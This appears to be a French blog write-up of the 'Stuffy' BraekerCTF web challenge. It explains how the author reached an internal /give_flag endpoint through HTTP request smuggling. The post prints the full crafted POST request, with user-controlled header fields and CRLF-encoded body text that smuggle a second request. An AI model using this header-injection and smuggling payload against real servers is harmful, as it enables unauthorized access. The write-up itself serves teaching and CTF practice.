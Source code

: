 ```yaml
---
layout: post
title: "Stuffy BraekerCTF"
date: 2024-06-24
categories: CTF
background_image: /assets/what_is_sql_injection_attack_4bdd2066d6.png
title_color: "#ffffff"
---
```




Commençons par lire le code qui nous est fourni. On peut voir directement une faille SQL.

Seulement, nous n’avons pas la main sur le username. Il est choisi à partir du fichier usenames.txt fourni qui est une liste de username aléatoires + 4 chars aléatoires.

La SQLi est donc pas la bonne piste.

Parmis toutes les routes on peut apercevoir l’endpoint /give_flag.
Cette fonction update la valeur du “stuff” avec la valeur de flag pour un user à partir du moment ou la requête vient du serveur lui-même. On peut essayer de rajouter le Headers à la main mais ça ne marchera pas car c’est le proxy nginx qui modifie les headers. Il faudrait donc trouver une fonction qui fait une requête et la rediriger vers /give_flag. Ça tombe bien /set_stuff fait une requête vers /update_profile_internal.

Set_stuff récupère dans un premier temps notre username grâce aux cookies et vérifie que cet user existe bien. Il récupère ensuite la variable de stuff de la requête et vérifie que la longueur est inférieure à 200. Les variables special_type, special_val sont de la même façon récupérées puis nétoyées avec les fonction security_filter. Les variables special_type et special_val deviennent des Headers et stuff est une partie du body.

Nous avons donc la main sur trois variables stuff, special_val et special_type. La piste la plus probable est une request smuggling.
Essayons.

POST /set_stuff HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 228
Origin: http://localhost:3000
DNT: 1
Connection: close
Referer: http://localhost:3000/
Cookie: username=love1987OBCj
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-PwnFox-Color: blue

special_type=Content-Length&special_val=80&stuff=aaaaaab%0d%0a%0d%0aPOST /give_flag HTTP/1.1%0d%0aHost: 127.0.0.1:3000%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0aContent-Length: 21%0d%0a%0d%0ausername=love1987OBCj

Ici, special_type et special_val forment un header qui va renseigner la première requête (la fin de aaaaaab) = Content-length: 80. Comment trouve-t-on ce nombre ?

Il suffit de trouver la taille de cette string.

Il suffit ensuite de créer la deuxième requête. Puis de rafraîchir la page et nous aurons le flag dans notre stuff.
